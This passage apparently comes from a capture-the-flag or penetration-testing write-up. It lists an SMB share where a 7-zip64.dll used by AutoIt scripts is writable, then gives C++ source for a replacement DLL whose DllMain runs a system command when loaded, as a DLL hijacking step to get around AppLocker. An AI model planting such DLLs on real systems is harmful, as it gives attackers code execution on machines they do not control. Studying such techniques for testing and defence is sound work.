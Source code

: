 ```
# use share
# ls
drw-rw-rw-          0  Thu May 11 12:17:42 2023 .
drw-rw-rw-          0  Tue Apr 19 08:45:15 2022 ..
-rw-rw-rw-    1013928  Thu May 11 12:18:02 2023 AutoIt3_x64.exe
-rw-rw-rw-    4601208  Thu May 11 12:21:31 2023 Bginfo64.exe
drw-rw-rw-          0  Mon Mar 21 17:22:59 2022 scripts

# cd scripts
# ls
drw-rw-rw-          0  Mon Mar 21 17:22:59 2022 .
drw-rw-rw-          0  Thu May 11 12:17:42 2023 ..
-rw-rw-rw-    1076736  Thu May 11 12:22:41 2023 7-zip64.dll
-rw-rw-rw-      54739  Sun Jan 23 05:54:21 2022 7Zip.au3
-rw-rw-rw-       2333  Sun Jan 23 05:54:21 2022 ZipExample.zip
-rw-rw-rw-       1794  Sun Jan 23 05:54:21 2022 _7ZipAdd_Example.au3
-rw-rw-rw-       1855  Sun Jan 23 05:54:21 2022 _7ZipAdd_Example_using_Callback.au3
-rw-rw-rw-        334  Sun Jan 23 05:54:21 2022 _7ZipDelete_Example.au3
-rw-rw-rw-        859  Sun Jan 23 05:54:21 2022 _7ZIPExtractEx_Example.au3
-rw-rw-rw-       1867  Sun Jan 23 05:54:21 2022 _7ZIPExtractEx_Example_using_Callback.au3
-rw-rw-rw-        830  Sun Jan 23 05:54:21 2022 _7ZIPExtract_Example.au3
-rw-rw-rw-       2027  Sun Jan 23 05:54:21 2022 _7ZipFindFirst__7ZipFindNext_Example.au3
-rw-rw-rw-        372  Sun Jan 23 05:54:21 2022 _7ZIPUpdate_Example.au3
-rw-rw-rw-        886  Sun Jan 23 05:54:21 2022 _Archive_Size.au3
-rw-rw-rw-        201  Sun Jan 23 05:54:21 2022 _CheckExample.au3
-rw-rw-rw-        144  Sun Jan 23 05:54:21 2022 _GetZipListExample.au3
-rw-rw-rw-        498  Sun Jan 23 05:54:21 2022 _MiscExamples.au3
```

So that's where the `7-zip64.dll` file is located. One of the things I noticed is that we can write to it. We can perform the DLL HIjacking attack for this. Because of AppLocker, I think that `msfvenom` generated DLLs won't work, so let's create our own.&#x20;

```cpp
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
#include "pch.h
#include <stdlib.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\Windows\\Tasks\\whoami.txt");
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```
